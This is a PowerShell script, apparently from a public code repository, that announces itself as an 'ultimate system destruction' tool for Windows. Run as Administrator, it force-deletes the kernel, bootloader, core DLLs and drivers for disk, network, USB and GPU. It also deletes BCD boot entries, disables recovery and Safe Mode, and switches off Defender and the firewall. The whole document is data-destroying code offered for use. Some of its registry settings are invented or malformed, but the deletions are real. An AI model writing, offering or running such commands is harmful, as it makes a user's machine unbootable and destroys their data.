 # ULTIMATE SYSTEM DESTRUCTION SCRIPT - USE AT YOUR OWN RISK
# WARNING: This script will render your system completely unbootable and beyond recovery.

# Ensure script is run as Administrator
if (!([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    Write-Host "You need to run this script as an administrator!" -ForegroundColor Red
    exit
}

Write-Host "Starting absolute destruction of the Windows system..." -ForegroundColor Red

# PART 1: Obliterate Windows Kernel and Boot Structure

Write-Host "Deleting critical Windows Kernel components (ntoskrnl.exe, hal.dll)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\ntoskrnl.exe" -Force  # Main kernel
Remove-Item -Path "C:\Windows\System32\hal.dll" -Force  # Hardware Abstraction Layer (HAL)

Write-Host "Destroying Boot Configuration Data (BCD) and bootloader (bootmgr, winload.exe)..." -ForegroundColor Red
Remove-Item -Path "C:\bootmgr" -Force  # Boot Manager
Remove-Item -Path "C:\Windows\System32\winload.exe" -Force  # Windows Boot Loader

Write-Host "Deleting boot configuration entries and BCD store..." -ForegroundColor Red
bcdedit /delete {default} /f  # Delete the default boot entry
bcdedit /delete {bootmgr} /f  # Remove boot manager from BCD

# PART 2: Completely Disable Recovery Options (Safe Mode, WinRE)

Write-Host "Disabling Safe Mode and Windows Recovery Environment (WinRE)..." -ForegroundColor Red
bcdedit /set {default} safeboot minimal  # Corrupt Safe Mode boot entry
bcdedit /set {bootmgr} recoveryenabled No  # Disable Windows Recovery Environment (WinRE)

Write-Host "Disabling advanced boot options (F8 menu)..." -ForegroundColor Red
bcdedit /set {globalsettings} advancedoptions false  # Disable the F8 boot options menu

# PART 3: Destroy Power Management and ACPI (Prevents Safe Shutdown)

Write-Host "Disabling ACPI (Power Management) and hardware shutdown..." -ForegroundColor Red
Set-ItemProperty -Path "HKLM\SYSTEM\CurrentControlSet\Services\ACPI" -Name "Start" -Value 4 -Force  # Disable ACPI
Remove-Item -Path "C:\Windows\System32\drivers\acpi.sys" -Force  # Remove ACPI driver (Power and hardware abstraction)

# PART 4: Cripple Disk I/O, NTFS, and Volume Management

Write-Host "Disabling NTFS file system and destroying disk I/O drivers..." -ForegroundColor Red
Set-ItemProperty -Path "HKLM\SYSTEM\CurrentControlSet\Services\Ntfs" -Name "Start" -Value 4 -Force  # Disable NTFS
Remove-Item -Path "C:\Windows\System32\drivers\disk.sys" -Force  # Main disk driver
Remove-Item -Path "C:\Windows\System32\drivers\partmgr.sys" -Force  # Partition manager

Write-Host "Deleting Volume Snapshot Service (VSS) and file system backups..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\volsnap.sys" -Force  # Remove Volume Shadow Copy driver

# PART 5: Destroy Security Layers and Integrity Checks

Write-Host "Disabling Kernel Patch Protection and integrity checks..." -ForegroundColor Red
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "DisableKernelPatchProtection" -Value 1 -Force  # Disable PatchGuard
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "DisableIntegrityChecks" -Value 1 -Force  # Disable kernel integrity checks

Write-Host "Disabling Secure Boot and deleting security policies..." -ForegroundColor Red
New-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecureBoot\State" -Name "UEFISecureBootEnabled" -Value 0 -Force  # Disable Secure Boot

# PART 6: Disable All Networking and TCP/IP Stack

Write-Host "Destroying networking stack and disabling network services..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\tcpip.sys" -Force  # Remove TCP/IP stack
Remove-Item -Path "C:\Windows\System32\drivers\ndis.sys" -Force  # Remove network driver interface
Set-Service -Name Dhcp -StartupType Disabled  # Disable DHCP service
Set-Service -Name Dnscache -StartupType Disabled  # Disable DNS Client service
Stop-Service -Name Dhcp, Dnscache -Force  # Stop DHCP and DNS services

# PART 7: Remove Windows Defender, Firewall, and Security Providers

Write-Host "Disabling Windows Defender and removing core security services..." -ForegroundColor Red
Set-Service -Name WinDefend -StartupType Disabled  # Disable Windows Defender
Remove-Item -Path "C:\Windows\System32\drivers\wd.sys" -Force  # Remove Defender driver

Write-Host "Disabling Windows Firewall and removing the firewall service..." -ForegroundColor Red
Set-Service -Name MpsSvc -StartupType Disabled  # Disable Windows Firewall service
Stop-Service -Name MpsSvc -Force  # Stop the firewall service
Remove-Item -Path "C:\Windows\System32\mpssvc.dll" -Force  # Remove the firewall service DLL

# PART 8: Destroy Windows UI, Explorer, and User Input Systems

Write-Host "Removing Windows Shell and Explorer functionality..." -ForegroundColor Red
Set-ItemProperty -Path "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell" -Value "" -Force  # Disable shell
Remove-Item -Path "C:\Windows\explorer.exe" -Force  # Delete Explorer.exe
Remove-Item -Path "C:\Windows\System32\userinit.exe" -Force  # Disable user initialization process

Write-Host "Disabling Task Manager and user input services..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\Taskmgr.exe" -Force  # Remove Task Manager
Remove-Item -Path "C:\Windows\System32\ctfmon.exe" -Force  # Disable Text Input Management

# PART 9: Cripple Hardware Interfaces (GPU, Audio, USB)

Write-Host "Disabling GPU drivers and hardware interfaces (nvlddmkm.sys, atikmdag.sys)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\nvlddmkm.sys" -Force  # Remove NVIDIA GPU driver
Remove-Item -Path "C:\Windows\System32\drivers\atikmdag.sys" -Force  # Remove AMD GPU driver

Write-Host "Disabling USB and Audio drivers..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\usbhub.sys" -Force  # Disable USB drivers
Remove-Item -Path "C:\Windows\System32\drivers\usbstor.sys" -Force  # Disable USB storage driver
Remove-Item -Path "C:\Windows\System32\drivers\audiosrv.sys" -Force  # Remove Audio Service

# PART 10: Render the System Unbootable and Final Touches

Write-Host "Rendering the system unbootable..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\drivers\bootvid.dll" -Force  # Remove boot video driver
Remove-Item -Path "C:\Windows\System32\bootres.dll" -Force  # Remove boot resource driver

Write-Host "Deleting critical libraries (kernel32.dll, ntdll.dll)..." -ForegroundColor Red
Remove-Item -Path "C:\Windows\System32\kernel32.dll" -Force  # Core system library
Remove-Item -Path "C:\Windows\System32\ntdll.dll" -Force  # Windows NT Layer

Write-Host "Final destruction complete. The system is now irrecoverable and cannot be booted. Goodbye!" -ForegroundColor Red
